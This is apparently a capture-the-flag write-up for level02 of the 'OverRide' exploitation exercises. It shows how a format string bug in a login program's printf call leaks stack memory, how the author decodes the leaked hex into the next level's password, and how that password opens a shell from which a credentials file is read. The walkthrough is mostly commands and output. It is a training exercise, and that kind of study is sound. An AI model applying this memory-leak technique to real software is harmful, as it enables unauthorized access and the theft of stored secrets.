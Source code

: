 # level02

![title screen](Ressources/title_screen02.png)

```sh
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Garp The Hero
--[ Password: Koby
*****************************************
Garp The Hero does not have access!
level02@OverRide:~$ ./level02 Mihawk
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Dracul Mihawk
--[ Password: Perona
*****************************************
Dracul Mihawk does not have access!
level02@OverRide:~$ 
```

![binary_02-hex-rays](Ressources/binary_02-hex-rays.png)

There only is a main here.

- Factually, the program begin by passing to a variable litterally the password of the next level. It exit if the function `fopen` (for opening the file) or `fread` (for attribute to a variable what `fopen` has read) failed.
- Then, the program asking a `username` but never check it, and asking a `password` and check it with `strcmp` function : it compare it to the variable containing the password of the next level... **IT'S IMPOSSIBLE** !

# <u>Vulnerability</u> : Format String Attack

We can notice the `printf` call when we enter a wrong password, it only have one argument. Naturally we can try to find where the buffer is stocked (the program is in `64 bits ELF format`, so the stack is 8 bytes aligned) :

```sh
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: *****************************************
AAAAAAAA 0x7fffffffe4c0 (nil) 0x20 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6b8 0x1f7ff9a08 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x100702520 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x4141414141414141 0x2070255020702520 0x7025207025207025 does not have access!
level02@OverRide:~$
```

We can see the buffer is in the 28th argument, so we can try to overwr-

## _OH !_

Did you see this ?

Starting by the 6th argument, we can see a scheme :

```sh
level02@OverRide:~$ python -c 'print "2520702520702520".decode("hex")'
% p% p%
level02@OverRide:~$ python -c 'print "2070252070252070".decode("hex")'
 p% p% p
level02@OverRide:~$ python -c 'print "7025207025207025".decode("hex")'
p% p% p%
```

It's our string, but in reverse order.

```sh
level02@OverRide:~$ python -c 'print "2520702520702520".decode("hex")[::-1]'
 %p %p %
level02@OverRide:~$ python -c 'print "2070252070252070".decode("hex")[::-1]'
p %p %p
level02@OverRide:~$ python -c 'print "7025207025207025".decode("hex")[::-1]'
%p %p %p
level02@OverRide:~$
```

# I have an idea

![Luffy smiling to Brulée](../assets/luffy_smiling_to_brulee.gif)

When we worked on [_RainFall_](https://github.com/Nimpoo/rainfall), we never have this idea, I don't know why.

If we print **ALL THE `STACK`** and convert all these addresse into ascii, we can maybe find the password of the next level stcked by the variable `ptr`. So, starting by the first at the 20th argument, it'all our buffer and other uninteresting values, let's try to print all the stack starting by the 21th argument :

```sh
level02@OverRide:~$ python -c 'print "756e505234376848".decode("hex")[::-1]'
Hh74RPnu
level02@OverRide:~$ python -c 'print "45414a3561733951".decode("hex")[::-1]'
Q9sa5JAE
level02@OverRide:~$ python -c 'print "377a7143574e6758".decode("hex")[::-1]'
XgNWCqz7
level02@OverRide:~$ python -c 'print "354a35686e475873".decode("hex")[::-1]'
sXGnh5J5
level02@OverRide:~$ python -c 'print "48336750664b394d".decode("hex")[::-1]'
M9KfPg3H
level02@OverRide:~$
```

If we concatenate all these strings, we have the password of the next level **`Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`**

### Now, let's try to log in with this password :

```sh
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Garp The Hero
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, Garp The Hero!
$ 
```

## We are authenticated !

Now, let's get the flag :

```sh
$ cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
$ 
```

# LEZGOOOOOOOOOOOOOOO

![Gomu Gomu no Boh...](../assets/gomu_gomu_no_boh.png)

Now... go to the next level with this password...

```sh
level02@OverRide:~$ su level03
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
level03@OverRide:~$ 
```

# level02... complet...

![yeah](../assets/yeah.gif)
